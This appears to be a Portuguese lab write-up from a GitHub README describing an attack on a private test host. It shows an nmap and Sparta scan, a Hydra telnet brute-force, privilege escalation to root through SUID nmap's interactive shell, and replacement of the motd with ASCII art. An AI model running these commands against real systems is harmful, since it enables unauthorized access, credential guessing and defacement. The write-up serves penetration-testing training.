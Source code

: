 ![banner GS cyber](https://user-images.githubusercontent.com/48387196/121257879-9a9ab300-c884-11eb-9a9a-4923081f3d28.png)

## Scan das portas

```
nmap -sS 10.0.2.4 | tee nmap-ss.txt
```

Por que fazer um port scanning? a ideia de se fazer um tipo de scan desses e buscar portas abertas e suscetíveis a ataques. Usando o `tee` conseguimos salvar estas portas em um arquivo txt.

## Análise de vulnerabilidades

Depois da análise das portas vamos fazer uma análise de vulnerabilidades utilizando o Sparta que é uma ferramenta de scanner de vulnerabilidades. Com o Sparta já instalado vamos rodar alguns comandos para iniciarmos ele.

Start in /usr/share/sparta

```
python3 sparta.py 
```

Após o início do programa colocamos nosso host 10.0.2.4 que será atacado e podemos buscar por vulnerabilidades dentro desse servidor.

![image](https://user-images.githubusercontent.com/48387196/120836104-934d6f80-c53b-11eb-824f-124133d6274f.png)

Com o sparta o nmap roda até o layer 3 e roda também o nikto para busca de vulnerabilidades web. Ainda podemos rodar o disbuster por exemplo para buscar pastas escondidas no servidor web e também fazer um brute force direto no programa.

## Mitre Att&ck

Brute Force ID: T1110

Os adversários podem usar técnicas de força bruta para obter acesso a contas quando as senhas são desconhecidas ou quando os hashes de senha são obtidos. Sem o conhecimento da senha de uma conta ou conjunto de contas, um adversário pode adivinhar a senha usando um mecanismo repetitivo ou iterativo. A força bruta de senhas pode ocorrer por meio da interação com um serviço que verificará a validade dessas credenciais ou off-line em relação aos dados de credenciais adquiridos anteriormente, como hashes de senha.

Exploitation for Privilege Escalation ID:T1068

Os adversários podem explorar vulnerabilidades de software na tentativa de elevar privilégios. A exploração de uma vulnerabilidade de software ocorre quando um adversário se aproveita de um erro de programação em um programa, serviço ou no próprio software do sistema operacional ou kernel para executar código controlado pelo adversário. Construções de segurança, como níveis de permissão, muitas vezes dificultam o acesso a informações e o uso de certas técnicas, pois os adversários provavelmente precisarão realizar escalonamento de privilégios para incluir o uso de exploração de software para contornar essas restrições.

Ao obter inicialmente acesso a um sistema, um adversário pode estar operando dentro de um processo com privilégios inferiores, o que o impedirá de acessar certos recursos do sistema. Podem existir vulnerabilidades, geralmente em componentes do sistema operacional e software geralmente executados com permissões mais altas, que podem ser exploradas para obter níveis mais altos de acesso no sistema. Isso pode permitir que alguém mude de permissões de nível de usuário ou sem privilégios para permissões de SISTEMA ou root, dependendo do componente vulnerável. Isso também pode permitir que um adversário mude de um ambiente virtualizado, como em uma máquina virtual ou contêiner, para o host subjacente. Essa pode ser uma etapa necessária para um comprometimento do adversário com um sistema de terminal que foi configurado corretamente e limita outros métodos de escalonamento de privilégios.

Os adversários podem trazer um driver vulnerável assinado para uma máquina comprometida para que possam explorar a vulnerabilidade para executar o código no modo kernel. Esse processo às vezes é conhecido como Traga seu próprio driver vulnerável (BYOVD). [1] [2] Os adversários podem incluir o driver vulnerável com arquivos entregues durante o acesso inicial ou baixá-lo para um sistema comprometido via Ingress Tool Transfer ou Lateral Tool Transfer.

## TelNet

O TELNET é um serviço muito vulnerável. Por não possuir nenhum tipo de criptografia, permite a descoberta de senhas e captura de informações.Através de uma sessão TELNET é possível disparar ataques, descobrir portas desprotegidas e serviços que estão sendo executados no servidor. O TELNET também é usado freqüentemente para gerar correio e notícias falsas (fakemail e fakenews).

## Brute Force Attack

Sabemos que existem portas abertas dentro do servidor e com isso podemos fazer um ataque de força bruta e tentar acessar o servidor. Fiz uma fork de um repositório com wordlists e vamos tentar buscar acesso com uma senha já conhecida por diversas pessoas.

Vamos utilizar a ferramenta Hydra para fazer esse brute force dentro do servidor e buscar entrar dentro do servidor apenas usando uma wordlist e batendo user e senha.

Vamos entrar na pasta do kali /user/share/wordlists e fazer um gunzip do rockyou.(mas como vamos utilizar um exemplo eu baixei uma wordlist da internet mais simples para não demorar tanto esse brute force).

```
hydra -l funcionario -P passlist.txt 10.0.2.4 telnet -V 
```

Através do hidra e de senhas já conhecidas em uma wordlist conseguimos obter o acesso ao servidor 

## Escalando privilegios

![hack](https://hackerculture.com.br/wp-content/uploads/2021/04/priv-escalation.png)

Depois de buscar o acesso ao servidor percebemos que o user não tem privilégios para a gente conseguir acessar todas as vulnerabilidades, por isso vamos precisar de uma escala de privilégios

Entrando no servidor:

```
ssh funcionario@10.0.2.4
```

Vamos buscar por todos os programas que possuem privilégios:

```
find / -user root -perm -4000 2>/dev/null
```

Logo após sabemos que o nmap possui privilégio vamos utilizar ele para ter acesso root ao servidor, utilizando o código abaixo para ter acesso ao modo interativo do nmap.

```
nmap --interactive 
```
Rodar o shell

```
!sh
```

Agora se eu der um `id` ou `whoami` eu apareco como root

Entao agora bora na pasta principal do servidor e colocar nossa ASCII no motd

```
rm -rf motd
```
```
cat > motd
e cola o ASCII
CTRL + Z
```

## Tools using

- nmap
- hydra
- wordlists
- sparta
- GTFOBins

## ASCII

```
                        |\
               \`-. _.._| \
                |_,'  __`. \
                (.\ _/.| _  |
               ,'      __ \ |
             ,'     __/||\  |
            (     ,/|||||/  |
               `-'_----    /
                  /`-._.-'/
                  `-.__.-' 

  _____      _              _ _           
 |  __ \    | |            | | |          
 | |__) |_ _| |_ _ __ _   _| | |__   __ _ 
 |  ___/ _` | __| '__| | | | | '_ \ / _` |
 | |  | (_| | |_| |  | |_| | | | | | (_| |
 |_|   \__,_|\__|_|   \__,_|_|_| |_|\__,_|
                                          
                                          
```
